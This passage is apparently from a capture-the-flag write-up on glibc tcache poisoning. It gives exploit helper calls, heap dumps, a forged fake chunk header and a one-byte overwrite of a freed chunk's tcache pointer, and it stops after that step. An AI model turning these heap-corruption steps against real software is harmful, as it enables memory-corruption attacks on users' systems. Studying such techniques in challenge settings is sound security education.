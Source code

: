 

    add('A', 0x40, p64(0)*5 + p64(0x61) + p64(0))   # A at 260 in f1
    add('B', 0x40)                                  # B at 2b0 in f2



When I run this, the heap looks like:



    0x55555555c250: 0x0000000000000000      0x0000000000000051  <-- A meta
    0x55555555c260: 0x0000000000000000      0x0000000000000000
    0x55555555c270: 0x0000000000000000      0x0000000000000000
    0x55555555c280: 0x0000000000000000      0x0000000000000061  <-- data, but looks like heap meta
    0x55555555c290: 0x0000000000000000      0x000000000000000a
    0x55555555c2a0: 0x0000000000000000      0x0000000000000051  <-- B meta
    0x55555555c2b0: 0x0000000000000a78      0x0000000000000000  <-- B data
    0x55555555c2c0: 0x0000000000000000      0x0000000000000000
    0x55555555c2d0: 0x0000000000000000      0x0000000000000000
    0x55555555c2e0: 0x0000000000000000      0x0000000000000000
    0x55555555c2f0: 0x0000000000000000      0x0000000000020d11  <-- end of heap



I'll free A and then free but hold onto B by editing it to 0. Then on
adding another 0x40 bin, I'll have both files pointing to the same spot.
From there, removing the first B will leave me where I want to be to
attack:



    rm('A')                                         # A in 0x50 tcache, f1 empty
    edit('B', 0)                                    # B -> A in 0x50 tcache, f2 still B
    add('B2', 0x40)                                 # A in 0x50 tcache, f1 & f2 -> B
    rm('B')                                         # B -> A in 0x50 tcache, f1 -> B



The heap loops like:



    0x55555555c250: 0x0000000000000000      0x0000000000000051  <-- A meta
    0x55555555c260: 0x0000000000000000      0x000055555555c010  <-- A pointer to next (null) and key
    0x55555555c270: 0x0000000000000000      0x0000000000000000
    0x55555555c280: 0x0000000000000000      0x0000000000000061  <-- fake chunk
    0x55555555c290: 0x0000000000000000      0x000000000000000a
    0x55555555c2a0: 0x0000000000000000      0x0000000000000051  <-- B meta
    0x55555555c2b0: 0x000055555555c260      0x000055555555c010  <-- pointer to A and key
    0x55555555c2c0: 0x0000000000000000      0x0000000000000000
    0x55555555c2d0: 0x0000000000000000      0x0000000000000000
    0x55555555c2e0: 0x0000000000000000      0x0000000000000000
    0x55555555c2f0: 0x0000000000000000      0x0000000000020d11



When I now edit B2 with just one character, 0x90, it will overwrite that
tcache pointer:



    edit('B2', 0x40, '\x90')                        # B -> fake1 in 0x50 tcache, f1 -> B
